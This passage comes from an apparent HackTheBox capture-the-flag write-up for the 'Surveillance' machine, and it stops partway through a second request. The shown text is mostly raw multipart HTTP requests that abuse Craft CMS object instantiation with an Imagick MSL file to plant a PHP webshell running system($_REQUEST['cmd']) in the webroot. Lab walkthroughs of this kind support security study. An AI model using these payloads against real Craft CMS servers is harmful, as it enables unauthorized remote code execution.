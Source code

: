 #### Write WebShell

Now that I can upload, I’ll use the same trick as Intentions to write a webshell using an MSL file:

```
POST /index.php HTTP/1.1
Host: surveillance.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:124.0) Gecko/20100101 Firefox/124.0
Content-Type: multipart/form-data; boundary=0xdf0xdf0xdf0xdf
Content-Length: 760

--0xdf0xdf0xdf0xdf
Content-Disposition: form-data; name="action"

conditions/render
--0xdf0xdf0xdf0xdf
Content-Disposition: form-data; name="test[userCondition]"

craft\elements\conditions\users\UserCondition
--0xdf0xdf0xdf0xdf
Content-Disposition: form-data; name="config"

{"name":"test[userCondition]","as xyz":{"class":"imagick","__construct()":{"files":"msl:/etc/hostname"}}}
--0xdf0xdf0xdf0xdf
Content-Disposition: form-data; name="fakefile"; filename="0xdf.txt"
Content-Type: application/octet-stream

<?xml version="1.0" encoding="UTF-8"?>
<image>
<read filename="caption:&lt;?php system($_REQUEST['cmd']); ?&gt;" />
<write filename="info:/var/www/html/craft/web/0xdf.php" />
</image>
--0xdf0xdf0xdf0xdf

```

The MSL file reads the static webshell text and writes it into the webroot identified [above](#verify-poc).

Now I need to invoke that MSL using imagick. I’ll send that file upload request to another Repeater window and make some changes:

- I’ll remove the file block.
- l use the same `vid` trick as in [Intentions](https://0xdf.gitlab.io/2023/10/14/htb-intentions.html#arbitrary-object-instantiation) to reference the MSL file using a wildcard:

```
POST /index.php HTTP/1.1
Host: surveillance.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:124.0) Gecko/20100101 Firefox/124.0
Content-Type: multipart/form-data; boundary=0xdf0xdf0xdf0xdf
Content-Length: 411

--0xdf0xdf0xdf0xdf
Content-Disposition: form-data; name="action"

conditions/render
--0xdf0xdf0xdf0xdf
Content-Disposition: form-data; name="test[userCondition]"

craft\elements\conditions\users\UserCondition
--0xdf0xdf0xdf0xdf
Content-Disposition: form-data; name="config"

```
